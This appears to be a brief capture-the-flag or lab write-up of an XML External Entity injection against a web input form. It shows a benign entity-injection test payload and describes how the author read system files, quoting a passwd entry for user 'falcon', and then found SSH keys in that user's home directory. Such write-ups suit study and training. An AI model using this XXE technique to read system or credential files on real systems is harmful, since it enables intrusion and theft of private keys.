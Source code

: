 So we start with a input area, lets see if it is not sanitized

![[/Untitled 569.png|Untitled 569.png]]

With this XML ill try to inject my name

```XML
<!DOCTYPE replace [<!ENTITY name "n314irs">]>
<userInfo>
<firstName>&name;</firstName>
<lastName>_P_W_N_3_D_</lastName>
</userInfo>
```

![[/Untitled 1 34.png|Untitled 1 34.png]]

Trying to list system files

![[/Untitled 2 27.png|Untitled 2 27.png]]

There is an user account `falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash`

![[/Untitled 3 27.png|Untitled 3 27.png]]

Listed his **/home** directory and founded ssh keys

---

![[/Untitled 4 27.png|Untitled 4 27.png]]